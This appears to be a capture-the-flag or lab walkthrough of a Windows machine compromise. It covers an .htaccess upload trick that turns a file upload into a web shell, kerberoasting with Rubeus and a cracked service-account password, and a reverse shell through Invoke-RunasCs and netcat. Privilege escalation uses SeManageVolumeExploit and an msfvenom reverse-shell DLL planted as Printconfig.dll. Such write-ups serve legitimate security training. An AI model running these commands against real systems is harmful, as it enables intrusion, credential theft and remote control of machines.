










There is a file upload functionality:


We can try to replace the .htaccess file of the server since it is running apache.

Running feroxbuster we also have an uploads directory.

We have `shell.whatevs`:


For command execution:
http://192.168.183.187/uploads/shell.whatevs?cmd=whoami


Now run powershell base64 payload


We have 2 service accounts:


We can try kerberoasting:
```
.\Rubeus.exe kerberoast /nowrap
```


We got a hash for svc_mssql.
We can crack it with hashcat 
trustno1

Now to get a shell as svc_mssql:
```
import-module .\Invoke-RunasCs.ps1
```
```
Invoke-RunasCs svc_mssql trustno1 cmd.exe -remote 192.168.45.229:1234
```
We now get a shell at port 1234:
```
sudo rlwrap nc -nlvp 1234
```



Now we can use an exploit for SeManageVolumePrivilege:
https://github.com/CsEnox/SeManageVolumeExploit/releases

Run it first
```
SeManageVolumeExploit.exe
```

For Printconfig.dll:
```bash 
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
```
Then transfer to machine
Then copy it:
```
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
```

Then in powershell:
```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```
Now should have got a shell
